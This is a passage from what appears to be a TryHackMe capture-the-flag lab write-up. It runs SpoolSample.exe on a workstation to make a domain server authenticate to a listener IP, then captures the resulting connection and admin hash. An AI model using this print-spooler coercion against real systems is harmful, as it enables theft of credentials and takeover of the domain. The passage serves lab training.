 
	* In an SSH terminal on THMWRK1, execute the following
	
		```
		C:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.57.228
		```

		![task4-spoolsample](./images/task4-spoolsample.png)

	* Get the connection and admin hash
	
		![task4-hash](./images/task4-hash.png)
